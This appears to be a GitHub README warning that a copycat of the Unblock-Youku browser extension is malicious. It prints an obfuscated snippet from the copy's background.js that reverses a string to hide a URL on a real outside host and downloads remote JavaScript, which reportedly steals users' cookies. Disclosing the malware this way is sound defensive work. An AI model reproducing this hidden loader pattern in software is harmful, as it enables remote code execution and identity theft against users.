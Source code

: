 Extension ID: aeocankoflefcaiabdkdjkenofcpjagb

This is a malicious copy the extension Unblock-Youku (ID: pdnfnkhpgegpcingjbfihlkjeighnddk).

In its background.js file, you can find

```javascript
function chk() {
    var a = new XMLHttpRequest;
    a.onreadystatechange = function () {
        4 == a.readyState && (localStorage.updated = a.responseText)
    };
    a.open("GET", "sj.gol/gol/moc.oatiahi5.emorhc//:ptth".split("").reverse().join(""), !0);
    a.send(null)
}
```

It will download arbitrary javascript code from their server `5ihaitao.com`, and execute it on your local computers.

The current version of the log.js file is kept a record in this folder.

You can check that the log.js file actually gets and manipulates users' website cookies, which can actually steal your online indentities and leak your private and important information.

